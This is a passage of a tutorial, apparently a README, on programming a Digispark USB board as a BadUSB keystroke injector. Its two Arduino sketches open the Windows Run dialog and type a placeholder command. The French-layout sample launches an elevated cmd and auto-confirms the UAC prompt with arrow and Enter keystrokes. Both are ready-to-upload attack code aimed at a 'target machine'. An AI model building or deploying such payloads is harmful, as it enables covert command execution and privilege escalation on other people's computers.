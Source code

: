 2. Set the correct board by going to `Tools > Boards` and selecting "Digistump AVR boards." Then, choose Boards > Digistump AVR board and select "DigiSpark 16mhz."
3. Add the provided code to a new sketch:

    ```cpp
    #include "DigiKeyboard.h"

    void setup() {
      //empty
    }

    void loop() {
      DigiKeyboard.delay(2000);
      DigiKeyboard.sendKeyStroke(0);
      DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
      DigiKeyboard.delay(600);
      DigiKeyboard.print("<MyCommand>");
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(5000);
      for(;;){ /*empty*/ }
    }
    ```

4. Press the upload button to push the code to the connected device.

    ![](/images/arduino_ide2.jpg)
   
5. Wait until the code has been uploaded. Unplug and plug the device back in to execute the payload on the USB.

### Adapting for Different Keyboards
If the target machine has a keyboard layout different from QWERTY, you need to make some adjustments.

#### Required Changes
1. Go to library management in Arduino IDE and search for DigiKeyboard.
2. Select the correct library for the payload (e.g., DigiKeyboardFr, DigiKeyboardBe).
3. Set the correct header in the application: #include "DigiKeyboardFr.h" and replace the DigiBoard class name with DigiBoardFr.

### Sample:
```cpp
#include "DigiKeyboardFr.h"

void setup() {
  // 
}

void loop() {
  DigiKeyboardFr.sendKeyStroke(KEY_FR_R,MOD_GUI_LEFT);
  DigiKeyboardFr.delay(500);
  DigiKeyboardFr.print("cmd");
  DigiKeyboardFr.sendKeyStroke(KEY_ENTER , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT);
  DigiKeyboardFr.delay(500);
  DigiKeyboardFr.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboardFr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardFr.delay(10000);
}
```
